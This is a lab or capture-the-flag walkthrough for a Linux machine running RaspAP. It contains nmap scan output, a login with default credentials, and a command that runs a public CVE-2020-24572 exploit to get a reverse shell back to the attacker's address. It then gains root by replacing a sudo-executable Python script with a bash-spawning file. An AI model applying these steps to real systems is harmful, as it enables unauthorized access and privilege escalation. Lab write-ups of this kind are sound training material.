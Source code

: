 Linux ttl=61

# scan

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
|_http-server-header: lighttpd/1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
```

# initial

nothing is interesting expect port 80

it has some http-auth

![[Pasted image 20240628204000.png]]

looked at here https://raspap.com/ and got default creds

![[Pasted image 20240628204026.png]]

https://github.com/gerbsec/CVE-2020-24572-POC/blob/main/exploit.py

used this exploit to get a shell

```
python3 exploit.py 192.168.182.97 8091 192.168.45.216 80 secret 3
```

# priv esc

it's interesting part

![[Pasted image 20240628210543.png]]

![[Pasted image 20240628210831.png]]

it means we can replace file but not their content

so just replace `wifi_reset.py` with our evil file and get shell, haha!

Originally I had tried uploading the malicious wifi_reset.py file with a python reverse shell payload but for some reason the box does not like any python reverse shells

so I just used one python module names `os`

```
import os
os.system('/bin/bash')
```

![[Pasted image 20240628211133.png]]

and just run it and got shell

```
sudo /usr/bin/python /home/walter/wifi_reset.py
```

![[Pasted image 20240628211156.png]]